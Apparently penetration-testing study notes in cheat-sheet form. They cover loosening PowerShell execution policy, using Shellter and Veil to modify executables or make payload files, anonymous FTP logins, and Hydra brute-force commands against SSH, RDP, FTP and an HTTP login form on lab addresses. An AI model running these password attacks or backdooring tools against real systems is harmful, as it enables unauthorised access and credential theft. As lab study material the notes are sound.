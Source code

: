 ```
```
powershell unrestricted execution

```
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```

use shellter for modifying exes
```
shellter
```

for anonymous ftp, username is 'anonymous'

```
User:  anonymous
Password:  anonymous@domain.com
```

for active ftp session do:
```
ftp -A $ip
```

binary -> allows transfer of binary files

Use Veil as an alternative to shellter for creating .bat files

```
/usr/share/veil/Veil.py
```

## Password cracking 
### Hydra 
ssh
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

rdp
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

ftp
```
hydra -l itadmin -P /usr/share/wordlists/rockyou.txt -s 21 ftp://$addr
```

for http post login
login_location:form_params:error_message
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

